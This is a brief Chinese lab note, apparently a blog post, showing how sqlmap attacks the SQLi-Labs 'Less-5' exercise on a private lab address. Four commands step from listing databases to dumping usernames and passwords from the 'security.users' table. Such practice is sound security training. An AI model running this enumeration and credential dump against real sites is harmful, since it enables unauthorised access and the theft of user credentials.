




用sqlmap爆破sql注入less-5

python sqlmap.py -u "http://192.168.214.142/sql/Less-5/?id=1" –dbs

python sqlmap.py -u "http://192.168.214.142/sql/Less-5/?id=1" -D security –tables

python sqlmap.py -u "http://192.168.214.142/sql/Less-5/?id=1" -D security -T users –columns

python sqlmap.py -u "http://192.168.214.142/sql/Less-5/?id=1" -D security -T users -C username,password –dump

